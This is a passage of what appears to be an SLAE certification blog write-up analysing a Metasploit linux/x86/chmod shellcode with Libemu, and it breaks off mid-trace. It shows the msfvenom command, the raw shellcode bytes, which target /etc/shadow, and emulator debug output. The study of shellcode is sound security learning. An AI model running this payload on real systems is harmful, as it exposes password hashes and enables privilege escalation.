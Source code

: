 ```yaml
---
title: Analyzing Metasploit Shellcode 
author: fwinsnes
date: 2021-01-18 13:44:00 +0800
categories: [SLAE]
tags: [assembly, shellcoding]
---
```


#### Introduction

These series of posts starting with the prefix "Assignment" will be created in order to fulfill the requirements of the SLAE certification. 

The fifth assignment from the seven requires analyzing three [shellcodes](https://es.wikipedia.org/wiki/Shellcode) generated by Metasploit through GDB/Ndisasm/Libemu. 
Furthermore, it is required to report the findings during the analysis.

#### Chmod Shellcode (Shellcode #1)

The first shellcode to be analyzed will be one that supposedly chmods a file, however, it isn't really known which one or the type of privileges that are granted. Let's find 
out!

Generating the shellcode with msfvenom:

```term
root@whitecr0wz:~# msfvenom -p linux/x86/chmod -f c 
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 36 bytes
Final size of c file: 177 bytes
unsigned char buf[] = 
"\x99\x6a\x0f\x58\x52\xe8\x0c\x00\x00\x00\x2f\x65\x74\x63\x2f"
"\x73\x68\x61\x64\x6f\x77\x00\x5b\x68\xb6\x01\x00\x00\x59\xcd"
"\x80\x6a\x01\x58\xcd\x80";
root@whitecr0wz:~#
```

##### Libemu

Analyzing the shellcode with Libemu:

```term
whitecr0wz@SLAE:~/assembly/assignments/Assignment_5/dissect1$ echo -ne 
"\x99\x6a\x0f\x58\x52\xe8\x0c\x00\x00\x00\x2f\x65\x74\x63\x2f\x73\x68\x61\x64\x6f\x77\x00\x5b\x68\xb6\x01\x00\x00\x59\xcd\x80\x6a\x01\x58\xcd\x80" | 
../../../libemu/tools/sctest/sctest -vvv -Ss 10000 
verbose = 3
[emu 0x0x1a155f0 debug ] cpu state    eip=0x00417000
[emu 0x0x1a155f0 debug ] eax=0x00000000  ecx=0x00000000  edx=0x00000000  ebx=0x00000000
[emu 0x0x1a155f0 debug ] esp=0x00416fce  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0x1a155f0 debug ] Flags: 
[emu 0x0x1a155f0 debug ] cpu state    eip=0x00417000
[emu 0x0x1a155f0 debug ] eax=0x00000000  ecx=0x00000000  edx=0x00000000  ebx=0x00000000
[emu 0x0x1a155f0 debug ] esp=0x00416fce  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0x1a155f0 debug ] Flags: 
[emu 0x0x1a155f0 debug ] 99                              cwd 
[emu 0x0x1a155f0 debug ] cpu state    eip=0x00417001
[emu 0x0x1a155f0 debug ] eax=0x00000000  ecx=0x00000000  edx=0x00000000  ebx=0x00000000
[emu 0x0x1a155f0 debug ] esp=0x00416fce  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0x1a155f0 debug ] Flags: 
[emu 0x0x1a155f0 debug ] 6A0F                            push byte 0xf
[emu 0x0x1a155f0 debug ] cpu state    eip=0x00417003
[emu 0x0x1a155f0 debug ] eax=0x00000000  ecx=0x00000000  edx=0x00000000  ebx=0x00000000
```